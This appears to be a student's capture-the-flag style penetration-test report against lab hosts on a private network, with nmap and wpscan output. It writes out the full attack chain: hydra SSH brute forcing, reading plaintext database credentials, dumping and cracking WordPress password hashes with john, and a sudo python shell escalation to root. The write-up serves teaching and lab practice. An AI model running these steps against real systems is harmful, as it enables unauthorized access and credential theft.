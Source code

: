 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```
bash
$ nmap -sV 192.168.1.0/24
  # Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-28 16:19 PDT
Nmap scan report for 192.168.1.1
Host is up (0.00069s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.0017s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.0000080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.83 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
  - 22/tcp ssh        
  - 80/tcp http

The following vulnerabilities were identified on each target:

- Target 1
  - Port 22 was opening allowing an attacker to SSH into the server.
  - Port 80 was open allowing unsecure connections to the web application.
  - The wordpress user 'michael' has a simple password.
  - The web server is vulnerable to brute force attacks.
  - The mySQL username and password is stored in plain text.
  - The user 'steven' requires no password to run commands in the python library. This allows for privilege escalation by generating a shell using python.

 - Scan Used
  - wpscan --url http://192.168.1.110/wordpress --enumerate

![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/wps1.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: _b9bbcb33e11b80be759c4e844862482d_
    - **Exploit Used**
      - Use hydra to brute force the password for user 'michael'.
        - ```hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh```
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Navigate to the website directory
        - ```cd /var/www/html/```
      - Use grep to find the flag in the html files.
        - ```grep -E flag*. *.html```

![](https://github.com/smalani06/cs-final-project/blob/main/images/hydra.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag1.png)

  - `flag2.txt`: _fc3fd58dcdad9ab23faca6e9a36e581c_
    - **Exploit Used**
      - SSH into the server using michael's account.
        - ```ssh michael@192.168.1.110```
      - Use find command to search for flags.
        - ```find . -name flag*```

![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag2.png)

  - `flag3.txt`: _afc01ab56b50591e7dccf93122770cd2_
    - **Exploit Used**
      - Look for the mysql username and password in the wp-config.php files.
        - ```find . -name *wp-config*```
        - ```nano ./wordpress/wp-config.php```
      - Log in to the mysql database by using the password found above.
        - ```mysql -u root -p```
      - Look at the tables and search for flags in the wp_posts table.
        - ```USE wordpress;```
        - ```SHOW TABLES;```
        - ```select * from wp_posts where post_content like '%flag%';```

![](https://github.com/smalani06/cs-final-project/blob/main/images/wp-config.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/login.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/tables.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag3.png)

  - `flag4.txt`: _715dea6c055b9fe3337544932f2941ce_
    - **Exploit Used**
      - After logging into the mySQL database, we checked the table wp_users where the user's password hashes were stored.
        - ```SELECT * FROM wp_users;```
      - Used john the ripper to crack user steven's password.
        - ```john wp_hashes.txt```
      - Connected to the server via SSH using steven's password.
      - List the allowed (and forbidden) commands for the invoking user steven.
        - ```sudo -l```
      - Since NOPASSWD is set for /usr/bin/python/, we can use python to escalate our privilege to root.
        - ```sudo python -c 'import pty;pty.spawn("/bin/bash")'```
      - Use find to locate flag4.
        - ```find . -name flag*```
        - cat /root/flag4.txt

![](https://github.com/smalani06/cs-final-project/blob/main/images/john.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/sshsteven.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/findflag4.png)
![](https://github.com/smalani06/cs-final-project/blob/main/images/flag4.png)
